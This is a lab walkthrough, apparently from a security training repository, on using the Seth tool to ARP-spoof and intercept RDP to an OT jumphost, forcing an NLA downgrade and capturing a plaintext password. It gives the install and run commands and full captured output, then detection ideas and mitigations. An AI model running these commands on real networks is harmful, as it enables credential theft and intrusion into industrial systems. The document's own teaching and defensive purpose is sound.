


# Stealing Plaintext Jumphost Credentials Using Seth

Watch the [LIVESTREAM](https://www.youtube.com/live/JVqw_jL7g28) where we attacked the Kit with Seth!

</img>

## Why This Matters

Jump hosts are a common mode of OT remote access — instead of allowing direct RDP from engineer laptops into OT devices, remote sessions must pass through a hardened intermediary. But if the attacker can't reach OT directly, the jump host becomes the target, and RDP has a lot of... issues.

`Seth` inserts itself between the RDP client and the jumphost to steal plaintext credentials, giving an attacker **persistent** and **very hard to detect** access to the OT network.

*Performed in an isolated lab environment for authorized security testing.*

## Lab Architecture

In this attack, we're going to use the following assets. The rest can be left powered off.

| System             | IP Address       | Purpose                                              |
| ------------------ | ---------------- | ---------------------------------------------------- |
| Windows RDP client | `192.168.141.101` | System initiating the RDP connection                 |
| Kali Linux / Seth  | `192.168.141.137` | Man-in-the-middle and credential interception system |
| IT Default Gateway | `192.168.141.1` | Second part of the ARP Spoof MITM... (you'll see later)|
| OT Jumphost / Windows RDP server | `192.168.0.9` | Intended RDP destination                   |

</img>

TLDR Attack: We used `Seth` to trick the user into giving us the password to the Jumphost.

1. **Arp Spoof** - `Seth` attack begins ARP Spoofing between IT Workstation and Gateway.
2. **RDP Proxy** - `Seth` relays RDP connection to the RDP server, but this generates a certificate warning on the IT workstation (RDP Client), clicking Yes.
3. **Fails** - `Seth` tries to do an RDP man-in-the-middle, but it fails because the server has Network Level Authentication turned on.
4. **Credentials** - No matter! `Seth` pretends like it is the RDP server and has NLA disabled. RDP Client prompted for username / password.
5. **Plaintext Password!** - `Seth` intercepts the plaintext username and password and Voila! You're cooked.

## Attack Animation (gif)

</img>

*(Watch the livestream for a full explanation.)*

## Prerequisites

- RDP client and Kali on the **same subnet**
- Both must be able to reach the OT jumphost's RDP port
- A jumphost in the OT network with Remote Desktop enabled

## Running the Attack

### Step 0: Install Seth

Seth is not included in Kali by default. Clone it from GitHub and make the script executable.

```bash
git clone https://github.com/SySS-Research/Seth.git
cd Seth
```

Seth is a shell script with no compiled components, so no build step is needed. Verify it runs:

```bash
sudo ./seth.sh
```

You should see the Seth usage/help output. If you see a missing-dependency error, install the dependency it names (typically `python3-impacket` or `dsniff`) and try again.

```bash
sudo apt install python3-impacket dsniff -y
```

### Step 1: Start Seth

The Seth Github states the command is run as follows:
```bash
sudo ./seth.sh <INTERFACE> <ATTACKER IP> <VICTIM IP> <GATEWAY IP|HOST IP> [<COMMAND>]
```

| Argument    | Value            | Purpose                                     |
| ----------- | ---------------- | ------------------------------------------- |
| INTERFACE   | `eth0`           | Kali interface on the lab network           |
| ATTACKER IP | `192.168.141.137` | Kali man-in-the-middle address              |
| VICTIM IP    | `192.168.141.1` | IT-side gateway (firewall)               |

```bash
sudo ./seth.sh eth0 192.168.141.137 192.168.141.101 192.168.141.1
```

> **Why `192.168.141.1` and not `192.168.0.9`?**
> Seth is a Layer 2 ARP spoof — it only works within a subnet. The actual jumphost is at `192.168.0.9`, but Seth's fourth argument is the **next hop** toward it. All client traffic must cross the OT firewall (`192.168.141.1`) first, so that's what Seth ARP-spoofs.

Seth will begin listening for a SYN packet.

```bash
──(david㉿kali)-[~/Seth]
└─$ sudo ./seth.sh eth0 192.168.141.137 192.168.141.101 192.168.141.1
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...

```
### Step 2: Initiate RDP from the Windows Client

Open an RDP connection to `192.168.0.9` as normal. Seth intercepts it mid-handshake and the client gets this warning.

We've all trained ourselves to just click `Yes`. Admit it.


</img>

### Step 3: Seth Captures the Credentials

After the user enters their credentials, Seth prints them in plaintext:

```bash
┌──(david㉿kali)-[~/Seth]
└─$ sudo ./seth.sh eth0 192.168.141.137 192.168.141.101 192.168.141.1
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 192.168.0.9
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 192.168.37.134:59051
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
oren::JPARDELLA:180e8dd040f0729a:d89980da5d3f19346d028c5178fe29d3:<REDACTED NTLM-CHALLENGE!>                                                                                                                                  
Tamper with NTLM response
Downgrading CredSSP
Connection closed
Connection received from 192.168.37.134:59052
Warning: RC4 not available on client, attack might not work
Listening for new connection
Server enforces NLA; switching to 'fake server' mode
Enable SSL
Connection lost on enableSSL: [Errno 104] Connection reset by peer
Connection lost on run_fake_server
Connection received from 192.168.37.134:59059
Warning: RC4 not available on client, attack might not work
Listening for new connection
Enable SSL
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
JPARDELLA\oren:PlainTextPassword!
[*] Cleaning up...
[*] Done
```

***WHAT??*** A clear-text password! Now you can log in to the OT network any time you want — and it'll look completely legitimate.

### Step 4: The RDP Session Fails

Seth's primary objective was credential interception rather than transparently proxying a complete RDP session.

Blame the network admin, and move on! (lol)

## What We Observed

Seth successfully captured the username and password entered by the RDP user.

The RDP connection terminated without completing a full interactive desktop session.

RDP commonly uses CredSSP and Network Level Authentication to securely delegate credentials to the remote server before a full desktop session is established.
Seth interfered with this authentication process and caused the client to interact with an attacker-controlled authentication prompt rather than authenticating directly to the RDP server.

## Important Limitation

This attack required the Kali system to be in a position where it could intercept or redirect traffic between the RDP client and RDP server.

Seth did not send an unsolicited credential prompt to the Windows client from outside the network path.

**The practical attack path therefore depends on an attacker first obtaining a man-in-the-middle position**, for example through ARP spoofing or another traffic-redirection mechanism.

This is an important distinction when assessing risk.
An attacker who has no foothold on the local network segment cannot execute this attack without first establishing that position.

## Note on Network Level Authentication

AI tools recommend `Network Level Authentication` (`NLA`) to mitigate this threat. **But in our demo, NLA WAS Enabled!**

How did it still work?

Because `Seth` was impersonating (ARP Spoofing) the RDP server, and told the client that NLA was disabled, and the client gladly downgraded.

Most security teams focus on hardening the server, but in this case it was a client weakness that allowed the compromise.

**SNEAKY!**

## Detection Opportunities

- Unexpected ARP table changes or duplicate-IP behavior
- RDP connections that fail immediately after credential entry
- RDP traffic originating from an unauthorized endpoint
- Authentication failures or unusual RDP negotiation sequences
- Connections arriving from an unexpected MAC address for the server's IP

But to be honest, all of these (except ARP spoofing) sound really noisy in a production environment.


## Security Takeaway

1. **Lock down firewall rules.** If Kali can't reach the jumphost's RDP port, the attack fails.
2. **Don't rely on RDP jumphosts as your primary defense.** Just like you shouldn't expose RDP to the public Internet, don't expose it in OT. Use Remote Desktop Gateways or a purpose-built OT remote access tool instead.
3. **Enable MFA for all external connections.** Stealing a password should not be enough to give you access into OT. MFA for the WIN!
4. **User Training to not click past warnings.** Remove the cause of security warnings and train users to take them seriously.

## References

- [Seth on GitHub](https://github.com/SySS-Research/Seth)
- [CredSSP and Network Level Authentication](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-allow-access)
- [Hacking OT Networks: A Practical Guide To Pentesting Industrial Networks](https://a.co/d/0etO4KzE), by Christopher Nourrie
- [Industrial Control System Security, Volume 1](https://www.amazon.com/Industrial-Cybersecurity-Efficiently-critical-infrastructure-ebook/dp/B0761XRTP9), by Pascal Ackerman
- [Cisco Converged Plantwide Ethernet - Industrial DMZ](https://literature.rockwellautomation.com/idc/groups/literature/documents/td/enet-td009_-en-p.pdf), by Cisco and Rockwell Automation
